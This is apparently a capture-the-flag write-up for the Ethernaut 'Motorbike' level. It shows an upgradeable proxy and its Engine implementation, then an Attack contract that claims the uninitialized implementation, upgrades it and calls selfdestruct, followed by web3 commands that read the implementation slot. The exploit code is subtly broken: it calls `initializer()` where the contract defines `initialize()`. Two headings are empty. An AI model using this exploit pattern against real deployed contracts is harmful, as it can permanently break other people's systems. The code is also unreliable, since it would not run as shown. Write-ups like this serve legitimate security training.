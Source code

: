 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel25.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`. 
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

Challenge's message:

> Ethernaut's motorbike has a brand new upgradeable engine design. Would you be able to selfdestruct its engine and make the motorbike unusable ?


This set of Solidity contracts demonstrates a simple upgradeability pattern using **EIP-1967**, which enables you to upgrade the logic of a smart contract while maintaining its storage and state. EIP-1967 introduces a proxy contract that delegates calls to an implementation contract. **This allows you to upgrade the implementation without changing the proxy contract's address or the storage layout**.


The `Motorbike` contract is a proxy contract that delegates function calls to its implementation. Here's how it works:

- **Initialization**: The constructor of `Motorbike` takes an address `_logic` as an argument, which represents the initial implementation contract. It checks if `_logic` is a valid contract address using the `Address.isContract()` function from OpenZeppelin. Then, it sets the `_IMPLEMENTATION_SLOT` to the `_logic` address. After that, it attempts to delegate call the `initialize()` function of the `_logic` contract.

 - **Delegation**: The `fallback` function of the `Motorbike` contract is triggered when an unknown function is called on the proxy contract. **It delegates the call to the current implementation by using the address stored in the** `_IMPLEMENTATION_SLOT`.


The `Engine` contract is the implementation contract meant to be used with the `Motorbike` proxy. It inherits from `Initializable`, which is a part of the OpenZeppelin library.

- **Initialization**: The `initialize()` function initializes the contract state. It sets the `horsePower` to 1000 and the `upgrader` to the sender's address.

- **Upgrade and Call**: The `upgradeToAndCall()` function is used to upgrade the implementation of the proxy and execute a function on the new implementation. This function requires the sender to have the `upgrader` role. It calls `_authorizeUpgrade()` to ensure the sender is authorized. Then, it upgrades the implementation using `_upgradeToAndCall()`. If `data` is provided, **it delegates calls to the new implementation with the provided data**.

- **Authorization Check**: The `_authorizeUpgrade()` function restricts the upgrade functionality to the `upgrader` role. If the sender is not the `upgrader`, the upgrade is denied.

- **Implementation Upgrade**: The `_upgradeToAndCall()` function performs the actual implementation upgrade. It sets the new implementation address in the `_IMPLEMENTATION_SLOT` and delegates calls to the new implementation. If `data` is provided, it's used to call a function on the new implementation.

- **Implementation Storage**: The `_setImplementation()` function is responsible for storing the new implementation address in the `_IMPLEMENTATION_SLOT`.


This set of contracts implements a basic upgradeability pattern using EIP-1967, where a proxy contract (`Motorbike`) delegates calls to an implementation contract (`Engine`). The `Engine` contract can be upgraded by an authorized upgrader using the `upgradeToAndCall()` function. This enables the contract's logic to be upgraded while retaining its storage and state.

##	ERC-1967

## Uninitialized UUPS Proxy Implementation


# Subverting


```solidity
pragma solidity ^0.8.20;

interface IEngine{
    function upgrader() external view returns(address);
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable;
    function initializer() external;
}

contract Attack {

    function attack(IEngine target) external{
        target.initializer();
        bytes memory data = abi.encodeWithSignature("pwn()");
        target.upgradeToAndCall(address(this),data);
    }

    function pwn() external {
        selfdestruct(payable(address(0)));
    }
}
```

```js
address = await web3.eth.getStorageAt(instance, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")
'0x000000000000000000000000c886bb58a9ef8f390296cb8ad0529c0f00b13155'
```

```js
address = '0x' + address.slice(-40)
'0xc886bb58a9ef8f390296cb8ad0529c0f00b13155'
```

Ethernaut's message:

> The advantage of following an UUPS pattern is to have very minimal proxy to be deployed. The proxy acts as storage layer so any state modification in the implementation contract normally doesn't produce side effects to systems using it, since only the logic is used through delegatecalls.
This doesn't mean that you shouldn't watch out for vulnerabilities that can be exploited if we leave an implementation contract uninitialized.
This was a slightly simplified version of what has really been discovered after months of the release of UUPS pattern.
Takeways: never leave implementation contracts uninitialized ;)
